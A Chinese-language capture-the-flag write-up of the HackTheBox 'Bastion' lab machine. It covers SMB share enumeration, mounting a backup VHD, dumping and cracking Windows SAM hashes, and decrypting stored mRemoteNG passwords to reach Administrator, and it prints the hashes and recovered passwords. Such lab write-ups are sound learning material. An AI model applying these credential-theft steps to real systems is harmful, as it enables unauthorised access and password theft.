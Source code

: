 ```yaml
---
title: HackTheBox Bastion 20190813
date: 2019-08-13 10:52:28
tags: [HackTheBox]
categories: [Network Security]
---
```




1. namp探测
```sh
root@kali2019:~# nmap  10.10.10.134
Starting Nmap 7.70 ( https://nmap.org ) at 2019-08-12 21:41 EDT
Nmap scan report for 10.10.10.134
Host is up (0.30s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

```

可以看到目标开启来SMB协议
关于SMB协议：

> SMB(全称是Server Message Block)是一个协议名，可用于在计算机间共享文件、打印机、串口等，电脑上的网上邻居就是靠它实现的。

> SMB 是一种客户机/服务器、请求/响应协议。通过 SMB 协议，客户端应用程序可以在各种网络环境下读、写服务器上的文件，以及对服务器程序提出服务请求。此外通过 SMB 协议，应用程序可以访问远程服务器端的文件、以及打印机等资源。

> NetBIOS 使用下列端口：UDP/137（NetBIOS 名称服务）、UDP/138（NetBIOS 数据报服务）、TCP/139（NetBIOS 会话服务）；SMB 使用下列端口：TCP/139、TCP/445。  #NetBIOS用于局域网内主机名发现。

2. SMB协议连接

Linux下可以通过使用smbclient访问windows共享目录

`yum install samba-client`

列出目标的共享文件夹：
```sh
root@kali2019:~# smbclient -L 10.10.10.134
Enter WORKGROUP\root's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	Backups         Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.134 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Failed to connect with SMB1 -- no workgroup available

```

一个个的尝试连接：
```sh
root@kali2019:~# smbclient //10.10.10.134/ADMIN$
Enter WORKGROUP\root's password: 
tree connect failed: NT_STATUS_ACCESS_DENIED

root@kali2019:~# smbclient //10.10.10.134/Backups
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Apr 16 06:02:11 2019
  ..                                  D        0  Tue Apr 16 06:02:11 2019
  note.txt                           AR      116  Tue Apr 16 06:10:09 2019
  SDT65CB.tmp                         A        0  Fri Feb 22 07:43:08 2019
  WindowsImageBackup                  D        0  Fri Feb 22 07:44:02 2019

		7735807 blocks of size 4096. 2793281 blocks available

```

关于smbclient用法：  
```
1，列出某个IP地址所提供的共享文件夹
smbclient -L 198.168.0.1 -U username -W domain (会提示输密码)
smbclient -L 198.168.0.1 -U username%password -W domain

2,像FTP客户端一样使用smbclient
smbclient //192.168.0.1/tmp -U username -W domain (会提示输密码)
smbclient //192.168.0.1/tmp -U username%password -W domain

执行smbclient命令成功后，进入smbclient环境，出现提示符： smb:/>
这里有许多命令和ftp命令相似，如cd 、lcd、get、megt、put、mput等。通过这些命令，我们可以访问远程主机的共享资源。

3,直接一次性使用smbclient命令
smbclient -c "ls" //192.168.0.1/tmp -U username%password
和
smbclient //192.168.0.1/tmp -U username%password
smb:/>ls
功能一样的
```

3. 分析共享目录中的文件

在smbclient中无法读取文件，所以mount到本地

```sh
cd /home 
mkdir Backups 
mount -t cifs -o username=root //10.10.10.134/Backups /home/Backups 
```

查看共享目录目录结构：  
```
root@kali2019:/home/Backups# tree
.
├── note.txt
├── SDT65CB.tmp
└── WindowsImageBackup
    └── L4mpje-PC
        ├── Backup 2019-02-22 124351
        │   ├── 9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd
        │   ├── 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd
        │   ├── BackupSpecs.xml
        │   ├── cd113385-65ff-4ea2-8ced-5630f6feca8f_AdditionalFilesc3b9f3c7-5e52-4d5e-8b20-19adc95a34c7.xml
        │   ├── cd113385-65ff-4ea2-8ced-5630f6feca8f_Components.xml
        │   ├── cd113385-65ff-4ea2-8ced-5630f6feca8f_RegistryExcludes.xml
        │   ├── cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer4dc3bdd4-ab48-4d07-adb0-3bee2926fd7f.xml
        │   ├── cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer542da469-d3e1-473c-9f4f-7847f01fc64f.xml
        │   ├── cd113385-65ff-4ea2-8ced-5630f6feca8f_Writera6ad56c2-b509-4e6c-bb19-49d8f43532f0.xml
        │   ├── cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerafbab4a2-367d-4d15-a586-71dbb18f8485.xml
        │   ├── cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerbe000cbe-11fe-4426-9c58-531aa6355fc4.xml
        │   ├── cd113385-65ff-4ea2-8ced-5630f6feca8f_Writercd3f2362-8bef-46c7-9181-d62844cdc0b2.xml
        │   └── cd113385-65ff-4ea2-8ced-5630f6feca8f_Writere8132975-6f93-4464-a53e-1050253ae220.xml
        ├── Catalog
        │   ├── BackupGlobalCatalog
        │   └── GlobalCatalog
        ├── MediaId
        └── SPPMetadataCache
            └── {cd113385-65ff-4ea2-8ced-5630f6feca8f}

16 directories, 20 files
```

由于vhd文件太大5G，openvpn速度太慢，无法拷贝到本地，尝试guestmount到本地,[参考：Mounting VHD file on Kali Linux through remote share](https://medium.com/@klockw3rk/mounting-vhd-file-on-kali-linux-through-remote-share-f2f9542c1f25)

```sh
apt-get install cifs-utils
apt-get install libguestfs-tools
```

```sh
root@kali2019:/mnt# mkdir vhd
root@kali2019:/mnt# guestmount --add '/home/Backups/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd' --inspector --ro /mnt/vhd -v
```


4. 解密SAM文件

```sh
cd /mnt/vhd/Windows/System32/config
cp SAM /root/Documents/HackTheBox/ && cp SYSTEM /root/Documents/HackTheBox/
samdump2 SYSTEM SAM > hashes.txt
cat hashes.txt 
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
hashcat -m 1000 hashes.txt -a 0 /usr/share/wordlists/rockyou.txt --force
```

可以得到L4mpje的密码,登录即可

`ssh L4mpje@10.10.10.134`


5. 分析目标主机  

查看桌面可以看到user.txt  
查看内容可以得到用户hash

查看`Program Files`和`Program Files （x86）`寻找可以利用的程序漏洞，因为目标安装的软件不多，`mRemoteNG`一眼就能看到，分析其目录，以及对应的Appdata文件夹，可以找到配置文件confCons.xml。

里面的内容别有洞天，Administrator、L4mpje的密码都有，不过是加密的。

寻找解密工具，[github: mRemoteNG-Decrypt](https://github.com/kmahyyg/mremoteng-decrypt)

```sh
python3 mremoteng_decrypt.py  -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
Password: thXLHM96BeKL0ER2

python3 mremoteng_decrypt.py  -s yhgmiu5bbuamU3qMUKc/uYDdmbMrJZ/JvR1kYe4Bhiu8bXybLxVnO0U9fKRylI7NcB9QuRsZVvla8esB
Password: bureaulampje
```

这样就得到了Administrator密码

使用`ssh administrator@10.10.10.134`，登录，进入桌面可以看到`root.txt`，里面有hash值

